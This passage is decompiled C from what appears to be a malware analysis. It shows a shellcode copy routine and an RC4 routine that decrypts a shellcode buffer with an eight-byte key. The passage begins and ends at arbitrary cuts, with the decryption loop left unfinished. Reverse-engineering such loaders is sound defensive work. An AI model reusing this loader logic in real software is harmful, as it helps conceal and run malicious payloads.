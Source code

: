 ```ceax
      *a2 = result;
    }
  }
  return result;
}
```

```c
char *__cdecl u_DROP_SHELLCODE(char *a1, char *a2, int a3) {
  int i; // [esp+0h] [ebp-4h]

  for ( i = 0; i < a3; ++i )
    a1[i] = a2[i];
  return a1;
}
```

```c
void __cdecl u_decrypt_shellcode(
        char *a1_in,
        char *a2_out,
        unsigned int a3,
        unsigned int a4_key1,
        unsigned int a5_key2) {
  /* ... */
  ProcessHeap = GetProcessHeap();
  rc4_S = HeapAlloc(ProcessHeap, 8u, 0x100u);
  procHeap = GetProcessHeap();
  key = HeapAlloc(procHeap, 8u, 0x100u);
  if ( rc4_S && key ) {
    for ( i = 0; i < 0x100; ++i ) {
      rc4_S[i] = 0;
      key[i] = 0;
    }
    // RC4 init
    for ( j = 0; j < 0x100; ++j )
      rc4_S[j] = j;
    for ( k = 0; k < 0x100; ++k )
      key[k] = 0;
    for ( m = 0; m < 4; ++m ) {
      key[m] = a4_key1 % 0x100;
      a4_key1 >>= 8;
    }
    for ( n = 0; n < 4; ++n ) {
      key[n + 4] = a5_key2 % 0x100;
      a5_key2 >>= 8;
    }
    // RC4 key sched
    jj = 0;
    for ( ii = 0; ii < 0x100; ++ii ) {
      jj = (key[ii] + jj + rc4_S[ii]) % 0x100;
      tmp = rc4_S[ii];
      rc4_S[ii] = rc4_S[jj];
      rc4_S[jj] = tmp;
    }
    jjj = 0;
    iii = 0;
    // RC4 decrypt
    for ( cnt = 0; cnt < a3; ++cnt ) {
      iii = (iii + 1) % 0x100;
      jjj = (jjj + rc4_S[iii]) % 0x100;
      tmp_ = rc4_S[iii];
      rc4_S[iii] = rc4_S[jjj];
      rc4_S[jjj] = tmp_;
```